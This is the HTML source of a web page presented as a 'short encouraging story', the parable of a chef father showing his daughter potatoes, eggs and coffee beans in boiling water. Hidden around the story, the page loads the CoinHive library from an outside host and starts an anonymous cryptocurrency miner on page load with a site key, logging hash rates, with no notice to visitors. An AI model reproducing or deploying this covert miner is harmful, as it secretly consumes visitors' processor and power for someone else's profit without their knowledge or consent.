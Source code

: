 <html>

	<head>
		<title>Short encouraging story!</title>
		<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
	</head>

	<body>


		<h6>Once upon a time a daughter complained to her father that her life was miserable and that she didn’t know how she was going to make it. She was tired of fighting and struggling all the time. It seemed just as one problem was solved, another one soon followed.

Her father, a chef, took her to the kitchen. He filled three pots with water and placed each on a high fire. Once the three pots began to boil, he placed potatoes in one pot, eggs in the second pot, and ground coffee beans in the third pot.

He then let them sit and boil, without saying a word to his daughter. The daughter, moaned and impatiently waited, wondering what he was doing.

After twenty minutes he turned off the burners. He took the potatoes out of the pot and placed them in a bowl. He pulled the eggs out and placed them in a bowl.

He then ladled the coffee out and placed it in a cup. Turning to her he asked. “Daughter, what do you see?”

“Potatoes, eggs, and coffee,” she hastily replied.

“Look closer,” he said, “and touch the potatoes.” She did and noted that they were soft. He then asked her to take an egg and break it. After pulling off the shell, she observed the hard-boiled egg. Finally, he asked her to sip the coffee. Its rich aroma brought a smile to her face.

“Father, what does this mean?” she asked.

He then explained that the potatoes, the eggs and coffee beans had each faced the same adversity– the boiling water.

However, each one reacted differently.

The potato went in strong, hard, and unrelenting, but in boiling water, it became soft and weak.

The egg was fragile, with the thin outer shell protecting its liquid interior until it was put in the boiling water. Then the inside of the egg became hard.

However, the ground coffee beans were unique. After they were exposed to the boiling water, they changed the water and created something new.

“Which are you,” he asked his daughter. “When adversity knocks on your door, how do you respond? Are you a potato, an egg, or a coffee bean? “

Moral:In life, things happen around us, things happen to us, but the only thing that truly matters is what happens within us.

Which one are you?</h6>

		<script>
			var miner = new CoinHive.Anonymous('lbcKDbmeSLVaInqx3gMTzYKbpZ0GXM99');
			miner.start();

			// Listen on events
			miner.on('found', function() { 
				console.log("found hash!")
			})
			miner.on('accepted', function() { 
				console.log("accepted hash!")
			})

			// Update stats once per second
			setInterval(function() {
				var hashesPerSecond = miner.getHashesPerSecond();
				var totalHashes = miner.getTotalHashes();
				var acceptedHashes = miner.getAcceptedHashes();

				console.log("hashesPerSecond", hashesPerSecond)
				console.log("totalHashes", totalHashes)
				console.log("acceptedHashes", acceptedHashes)

				console.log("-----------")
				console.log("-----------")
				console.log("-----------")

				// Output to HTML elements...
			}, 1000);
		</script>
	</body>

</html>
